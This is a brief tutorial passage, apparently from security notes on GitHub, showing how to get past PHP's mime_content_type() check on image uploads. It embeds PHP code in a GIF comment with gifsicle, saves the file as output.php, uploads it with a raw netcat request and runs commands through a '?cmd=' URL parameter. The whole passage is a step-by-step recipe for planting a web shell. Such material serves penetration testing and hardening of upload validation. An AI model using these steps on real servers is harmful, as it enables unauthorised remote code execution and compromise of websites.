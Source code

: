 ### Get Around of mime_content_type or finfo
In this example we get around the php's *mime_content_type()* function.

\_ The server accept **GIF** images and use only the *mime_content_type()* function for verify that the image is valid. If we put **PHP** code in comment of the GIF, like php is a template language with a php extension the GIF will be executed.

\_ For insert comment in GIF file we use the following command :

``gifsicle < spmUM.gif -- comment "`cat exploit.php`" > output.php``

 Now we can upload our file: `nc upload 80 < raw`. After that we can execute the script from a navigator (e.g : http://hostname/upload/uploads/?cmd=touch+newfile)
